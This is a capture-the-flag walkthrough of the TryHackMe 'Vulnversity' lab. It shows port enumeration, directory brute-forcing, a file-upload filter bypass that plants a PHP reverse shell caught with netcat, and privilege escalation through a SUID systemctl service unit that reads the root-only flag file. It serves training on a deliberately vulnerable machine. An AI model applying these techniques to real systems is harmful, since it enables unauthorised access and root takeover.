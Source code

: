 # Vulnversity (THM)

- https://tryhackme.com/room/vulnversity
- Feb 23, 2023
- easy

---

## Enumeration

- Nmap Initial
- Ports opened

1. 21 - vsftpd 3.0.3
2. 22 - OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
3. 139 - Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
4. 445 - Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
5. 3128 - Squid http proxy 3.5.12
   - http-server-header: squid/3.5.12
   - http-title: ERROR: The requested URL could not be retrieved
6. 3333 - Apache httpd 2.4.18 ((Ubuntu))
   - http-server-header: Apache/2.4.18 (Ubuntu)
   - http-title: Vuln University
   - Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kerne

## Get User Access

- ftp, smb cannot enter
- directory brute-forcing at 3333 web server

```sh
ffuf -u http://$IP:3333/FUZZ -w /usr/share/wordlists/directory-list-2.3-medium.txt
```

- found `internal` directory to file upload
- try to upload php reverse shell
- refuse php extension, change to phtml and uploaded

```sh
nc -vnlp 4444 # listening
curl http://$IP:3333/internal/uploads/php_reverse_shell.phtml # to execute the command and get the shell with user www-data
```

## Get Root Access

- can't execute sudo with this user
- find suid

```sh
$ find / -perm -u=s -type f 2>/dev/null
...
/bin/systemctl
...
```

- /bin/systemctl is interesting
- gtfobin

```sh
TF=$(mktemp).service

echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/root.txt"
[Install]
WantedBy=multi-user.target' > $TF

/bin/systemctl link $TF
/bin/systemctl enable --now $TF
cd /tmp
cat root.txt
```

---
